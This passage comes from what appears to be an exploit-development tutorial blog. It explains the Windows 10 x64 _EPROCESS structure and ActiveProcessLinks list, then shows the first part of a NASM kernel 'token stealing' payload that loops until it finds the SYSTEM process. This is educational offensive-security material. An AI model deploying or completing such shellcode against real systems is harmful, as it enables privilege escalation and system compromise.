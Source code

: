 Notice that I copied the current process, stored in RAX, into RBX as well. You will see why this is needed here shortly.

Take Me For A Loop!
---

Let's take a look at a few more elements of the `_EPROCESS` structure.

`dt nt!_EPROCESS`

<img src="{{ site.url }}{{ site.baseurl }}/images/64_15.png" alt="">

Let's take a look at the data type of `ActiveProcessLinks`, `_LIST_ENTRY`

`dt nt!_LIST_ENTRY`

<img src="{{ site.url }}{{ site.baseurl }}/images/64_16.png" alt="">

`ActiveProcessLinks` is what keeps track of the list of current processes. How does it keep track of these processes you may be wondering? Its data type is `_LIST_ENTRY`, a doubly linked list. This means that each element in the linked list not only points to the next element, but it also points to the previous one. Essentially, the elements point in each direction. As mentioned earlier and just as a point of reiteration, this linked list is responsible for keeping track of all active processes.

There are two elements of `_EPROCESS` we need to keep track of. The first element, located at an offset of 0x2e0 on Windows 10 x64, is `UniqueProcessId`. This is the PID of the process. The other element is `ActiveProcessLinks`, which is located at an offset 0x2e8.

So essentially what we can do in x64 assembly, is locate the current process from the aforementioned method of `PsGetCurrentProcess()`. From there, we can iterate and loop through the `_EPROCESS` structure's `ActiveLinkProcess` element (which keeps track of every process via a doubly linked list). After reading in the current `ActiveProcessLinks` element, we can compare the current `UniqueProcessId` (PID) to the constant 4, which is the PID of the SYSTEM process. Let's continue our already started assembly program.

```nasm
; Windows 10 x64 Token Stealing Payload
; Author Connor McGarr

[BITS 64]

_start:
	mov rax, [gs:0x188]		; Current thread (_KTHREAD)
	mov rax, [rax + 0xb8]	   	; Current process (_EPROCESS)
  	mov rbx, rax			; Copy current process (_EPROCESS) to rbx
	
__loop:
	mov rbx, [rbx + 0x2e8] 		; ActiveProcessLinks
	sub rbx, 0x2e8		   	; Go back to current process (_EPROCESS)
	mov rcx, [rbx + 0x2e0] 		; UniqueProcessId (PID)
	cmp rcx, 4 			; Compare PID to SYSTEM PID 
	jnz __loop			; Loop until SYSTEM PID is found
```
